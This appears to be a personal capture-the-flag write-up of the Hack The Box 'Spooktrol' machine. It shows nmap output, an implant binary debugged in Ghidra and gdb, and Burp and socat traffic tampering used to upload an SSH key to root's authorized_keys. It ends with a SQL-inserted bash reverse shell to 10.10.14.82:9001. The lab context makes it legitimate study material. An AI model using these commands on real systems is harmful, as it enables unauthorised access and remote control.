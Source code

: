 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`

![](Pasted image 20211028162957.png)

![imGE](/home/aju/Hackthebox/Notes/Spooktrol/Pasted image 20211028165356.png)

Running wireshark 

![](Pasted image 20211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](Pasted image 20211028164739.png)

1st flag

![](Pasted image 20211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](Pasted image 20211028165356.png)

# User

break at system in upload funtion in case 3

![](Pasted image 20211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](Pasted image 20211028165920.png)

Then add a second proxy at burp.

![](Pasted image 20211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](Pasted image 20211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](Pasted image 20211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](Pasted image 20211028184924.png)


we got replaced in next attempt.

![](Pasted image 20211028185028.png)


![](Pasted image 20211028185049.png)

Now lets change `/etc/passwd` to our ssh public key.


![](Pasted image 20211028185303.png)


upload the public to root's authorized_keys

![](Pasted image 20211028185412.png)

# Root

Logged in as root in docker.

![](Pasted image 20211028185502.png)

insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](Pasted image 20211028190236.png)

Got reverse shell as root

![](Pasted image 20211028190141.png)